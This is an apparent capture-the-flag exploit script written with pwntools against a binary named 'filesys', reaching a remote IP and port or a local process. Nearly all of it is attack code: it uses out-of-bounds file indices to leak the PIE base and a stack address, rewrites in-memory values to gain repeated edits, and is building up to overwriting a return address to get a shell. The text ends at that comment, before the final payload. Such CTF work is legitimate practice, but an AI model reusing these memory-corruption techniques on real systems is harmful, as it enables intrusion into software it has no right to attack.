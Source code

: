 ```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './filesys'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('47.94.201.121', 34868)
    elf = ELF(EXE)
    libc = elf.libc

    def create_file(name: str, buf: bytes) -> bool:
        t.sendlineafter(b'2.open file', b'1')
        t.sendlineafter(b'input filename (max length = 0x30): ', name.encode())
        if b'Exist' in t.recvline():
            return False
        t.send(buf)
        return True

    def open_file(name: str):
        t.sendlineafter(b'2.open file', b'2')
        t.sendlineafter(b'input filename (max length = 0x30): ', name.encode())

    def edit_file(idx: int, buf: bytes):
        t.sendlineafter(b'2.open file', b'3')
        t.sendlineafter(b'idx', str(idx).encode())
        t.sendafter(b'content', buf)

    def show_file(idx: int) -> bytes:
        t.sendlineafter(b'2.open file', b'4')
        t.sendlineafter(b'input file idx: ', str(idx).encode())
        return t.recvuntil(b'\nshow File', True)

    t.sendafter(b'DirectoryName', b'\n')
    if create_file('1', b'rand bytes'):
        for i in range(2, 19):
            create_file(str(i), b'rand bytes')
    else:
        for i in range(1, 19):
            open_file(str(i))

    # Use one chance to leak information
    leak = show_file(-11) # __dso_handle
    pie_base = u64(leak[:6] + b'\0\0') - 0x4008
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base
    stack = u64(leak[0x477:0x47f]) - 0xaf # saved in constructor function
    success(GOLD_TEXT(f'Edit function stack frame return addr: {stack:#x}'))

    # Use another chance to overwrite stdout to get infinite chances
    chance = pie_base + 0x4010
    edit_file(-8, flat(0, chance, chance + 8))

    # Edit __dso_handle to put edit stack address on bss
    edit_file(-11, p64(stack - 0x30 - 0x28))

    # Overwrite edit return address to open shell
```